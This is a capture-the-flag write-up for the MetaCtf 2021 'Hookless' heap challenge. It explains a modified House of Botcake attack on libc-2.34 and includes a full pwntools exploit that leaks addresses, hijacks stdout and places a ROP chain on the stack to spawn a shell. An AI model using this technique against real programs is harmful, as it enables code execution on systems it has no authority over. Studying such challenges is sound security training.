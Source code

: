 ## Hookless


was a heap challenge from MetaCtf 2021.

pretty standard heap menu as you can see.

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Hookless/pics/menu.png)

It is based on libc-2.34, and have all the mitigations up to this version,

Specifically the libc-2.34 has no more hooks for malloc, free, realloc.. so it needs different ways to obtain a code execution.

we quickly check the binary

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Hookless/pics/checksec.png)

Ok only Partial RELRO, so GOT entries could be modified.. (but we will not use it..)

The vulnerabilities usable to exploit the heap challenge were:

* a double free in the delete function, as the allocation pointers are not nulled after a free.
* an UAF in the edit function, but you can use it only one time.
* an UAF in display function (useful to leak addresses)



You are limited to 15 allocations, no more, and when a bloc is freed the allocation counter is not decremented. 

Basically the exploitation plan was to use the "House of Botcake" heap exploitation technic,

a bit modified to fit in the 15 allocations limit.


you can find a good explanation on it here: 

[https://github.com/shellphish/how2heap/blob/master/glibc_2.34/house_of_botcake.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.34/house_of_botcake.c)

or here,

[https://github.com/StarCross-Tech/heap_exploit_2.31/blob/master/house_of_botcake.c](http://github.com/StarCross-Tech/heap_exploit_2.31/blob/master/house_of_botcake.c)


I have to modify a bit the original attack, to fit in the 15 allocations limit..

So, we allocate 6 chunks from tcache of 0x100 size,

then two more chunks (A and B) of 0x100 size (this is the two chunks that we will use for the attack), 

then a last padding chunk of size 0x100 , to prevent consolidation.

then we free the first 6 chunks, and the last padding chunk. That will fill the tcache 0x110 list (7 chunks)

even freed, the padding chunk will prevent consolidation..

Then we first free chunk B (that will put a unsorted libc address on heap , that we will leak to calcultate libc address), then we free bloc A

We then allocate a chunk of 0x100 size from tcache, and double free the chunk B.

Then we allocate a chunk of size 0x130, that bloc will be allocated at the address of chunk A, and will overlap chunk B, with it we can modify bloc B metadata, and fd, bk pointers..

that's the basis of House of Botcake.

With out overlapping chunk we modify the fd pointer of chunk B, to make it points to _IO_2_1_stdout_

in libc.

Now we have to allocate two chunks, the second one will be allocated to our target.

We will modify __IO_2_1_stdout__  to leak the stack environment variables address via the libc "environ" variable, we have for this to overwrite many stdout pointers..

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Hookless/pics/leak.environ.png)

what will happen after altering stdout like this, it that stdout will leak the stack address..

like you can see here:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Hookless/pics/stdout.png)


this technic will somewhat broke stdout output, the ending carriage return will disappears.. but it's still usable...


Now that we know the stack address, we just have to double free another chunk,

then modify its FD pointer with the edit function (usable only once...), to make it points to stack..

and we will have an allocation of a chunk on stack..

we can directly overwrite the create function return address, with a ROP, that will call system("/bin/sh"),

and like that, we will have a code execution without any Hooks...

if you understand nothing of my explanation :)

just read the code...

**P.S.:**

we probably could also have leaked the address of the bss or program base, via ld.so vars..

and overwrite a GOT entry... we left that as an exercise for the most motivated...


```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'debug'

exe = ELF('./chall.patched')
libc = ELF('./libc.so.6')

host, port = "host.cg21.metaproblems.com", "3260"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

# max size 1024
def add(idx,size,data):
  p.sendlineafter('Exit\n','1')
  p.sendlineafter('index?\n',str(idx))
  p.sendlineafter('it?\n',str(size))
  p.sendafter('here?\n',data)

def addn(idx,size,data):
  p.sendlineafter('Exit','1')
  p.sendlineafter('index?',str(idx))
  p.sendlineafter('it?',str(size))
  p.sendafter('here?',data)

def display(idx):
  p.sendlineafter('Exit\n','2')
  p.sendlineafter('index?\n',str(idx))

def edit(idx,data):
  p.sendlineafter('Exit\n','3')
  p.sendlineafter('index?\n',str(idx))
  p.sendafter('here?\n',data)

def editn(idx,data):
  p.sendlineafter('Exit','3')
  p.sendlineafter('index?',str(idx))
  p.sendafter('here?',data)

# double free
def free(idx):
    p.sendlineafter('Exit\n','4')
    p.sendlineafter('index?\n',str(idx))

def freen(idx):
    p.sendlineafter('Exit','4')
    p.sendlineafter('index?',str(idx))



for i in range(6):
  add(i,0x100,chr(0x41+i))

add(6,0x100,'1')
add(7,0x100,'2')
add(8,0x100, '3')
for i in range(6):
  free(i)
free(8)

# leak heap base
display(0)
heap = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))<<12
print('heap base = '+hex(heap))

free(7)
display(7)
# leak unsorted libc address
libc.address = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - 0x1edcc0
print('libc base = '+hex(libc.address))

free(6)
add(9,0x100,p64(0xdeadbeef)*2)
free(7)
# get a bloc overlapping next bloc, overwrite dest
add(10,0x130,'\x00'*0x108+p64(0x111)+p64(libc.symbols['_IO_2_1_stdout_'] ^ (heap>>12)))
# nop
add(11,0x100,'a')

# overwrite stdout to leak stack via libc environ var
payload  = p64(0xfbad1800) + p64(0)*3 + p64(libc.sym['environ']) + p64(libc.sym['environ'] + 0x8)*3 + p64(libc.sym['environ'] + 0x9)
add(12,0x100,payload)

stack = u64(p.recv(8))
print('stack leak environ = '+hex(stack))

# double free another block to overwrite stack
freen(11)
editn(11,p64((stack-0x168) ^ (heap>>12)))
addn(13,0x100, 'X'*0x80)

rop = ROP(libc)
retg = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# copy the payload on to stack to create function return address
payload = '/bin/sh\x00'+p64(retg)+p64(pop_rdi)+p64(stack-0x168)+p64(libc.symbols['system'])
addn(14,0x100, payload)

p.interactive()
```

*nobodyisnobody still pwning things...*

